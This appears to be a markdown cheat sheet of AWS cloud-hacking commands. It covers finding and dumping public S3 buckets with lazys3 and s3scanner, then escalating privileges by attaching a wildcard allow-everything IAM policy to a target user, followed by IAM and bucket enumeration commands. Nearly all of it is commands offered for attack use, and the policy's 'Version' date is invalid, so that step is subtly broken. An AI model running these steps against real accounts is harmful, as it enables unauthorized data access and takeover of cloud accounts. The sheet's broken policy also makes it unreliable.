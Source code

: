 ## Cloud hacking cheat sheet

### Amazon

#### Install awscli
```sh
pip3 install awscli
```

#### S3 Bucket Enumeration

##### Search for public buckets from a company using lazys3
```sh
ruby lazys3.rb [COMPANY]
```
##### Search for public buckets from a company using s3scanner
```sh
python3 ./s3scanner.py sites.txt
```

##### Dump all open buckets and log both open and closed buckets using s3scanner
```sh
python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt
```

##### Save the file listings of all open buckets to a file using s3scanner
```sh
python ./s3scanner.py --list names.txt
```

#### Escalate IAM User Privileges by Exploiting Misconfigured User Policy
```sh
vim user-policy.json
```

Insert:
```sh
{
    "Version": "2011-09-11",
    "Statement": [
        {

            "Effect": "Allow",

            "Action": "*",

            "Resource": "*"

        }
    ]
}
```

Attach the created policy (user-policy) to the target IAM user’s account:

```sh
aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json

aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy
```

#### View user policies
```sh
aws iam list-attached-user-policies --user-name [Target Username]
```

#### List users
```sh
aws iam list-users
```

#### List buckets
```sh
aws s3api list-buckets --query "Buckets[].Name"
```

#### List user policies
```sh
aws iam list-user-policies
```

#### List role policies
```sh
aws iam list-role-policies
```

#### List froup policies
```sh
aws iam list-group-policies
```

#### Create user
```sh
aws iam create-user
```


